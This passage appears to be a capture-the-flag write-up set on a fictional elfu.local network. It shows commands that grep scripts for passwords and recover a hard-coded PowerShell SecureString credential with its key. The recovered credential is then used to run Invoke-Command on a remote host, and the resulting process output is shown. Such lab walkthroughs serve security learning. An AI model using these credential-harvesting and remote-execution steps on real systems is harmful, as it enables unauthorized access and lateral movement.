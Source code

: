 ``` 
$grep -i passw *ps1 
``` 
bingo .. 
```Powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate 
``` 

## Powershell

Let's run it in the powershell
```
$powershell 
PowerShell 7.2.0-rc.1
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/iuwuvckfvi/test> $SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
PS /home/iuwuvckfvi/test> $aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
PS /home/iuwuvckfvi/test> $aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
PS /home/iuwuvckfvi/test> Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate 

 NPM(K)    PM(M)      WS(M)     CPU(s)      Id  SI ProcessName                                                                     PSComputerName
 ------    -----      -----     ------      --  -- -----------                                                                     --------------
      9     4.31      10.09       0.00    1496   0 conhost                                                                         10.128.1.53
      9     6.52      12.20       0.05    7760   0 conhost                                                                         10.128.1.53
     25     2.53       5.41       0.00     596   0 csrss                                                                           10.128.1.53
      9     1.70       4.49       0.00     684   1 csrss                                                                           10.128.1.53
     32    17.25      22.66       0.00    3884   0 dfsrs                                                                           10.128.1.53
     12     2.52       7.71       0.00    2536   0 dfssvc                                                                          10.128.1.53
 
``` 
